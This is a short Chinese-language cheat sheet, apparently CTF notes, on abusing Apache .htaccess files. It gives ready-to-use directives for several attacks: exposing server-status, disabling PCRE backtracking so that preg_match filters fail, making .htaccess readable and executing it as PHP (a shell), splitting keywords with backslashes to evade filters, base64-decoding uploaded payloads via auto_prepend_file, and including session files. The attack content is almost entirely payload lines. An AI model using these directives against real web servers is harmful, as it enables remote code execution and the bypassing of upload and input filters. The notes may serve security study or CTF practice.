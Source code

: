 ### 其他利用方式

查看 apache 服务器信息

```
SetHandler server-status

```

绕过 preg_math

```
设置回溯限制
 pcre.backtrack_limit给pcre设定了一个回溯次数上限，默认为1000000，如果回溯次数超过这个数字，preg_match会返回false,在,htaccess中手动修改这个限制

php_value pcre.backtrack_limit 0
php_value pcre.jit 0

```

使`.htaccess`可以访问

```
编辑.htaccess
<Files ~ ".htaccess">
    Require all granted
    Order allow,deny
    Allow from all
</Files>

```

将`.htaccess`作为 shell

```
<Files ~ ".htaccess">
    Require all granted
    Order allow,deny
    Allow from all
</Files>

SetHandler application/x-httpd-php

#<?php phpinfo();?>
注意#号

```

### 绕过

```
反斜线绕过
SetHa\
ndler appli\
cation/x-ht\
tpd-php

文件中不能包含某些关键字符
上传base加密的文件
利用php_value auto_prepend_file包含文件时base解密

包含session文件

php_value auto_append_file "/tmp/sess_session文件名"
php_value session.save_path "/tmp"  # session文件储存位置
php_flag session.upload_progress.cleanup off # session上传进度

```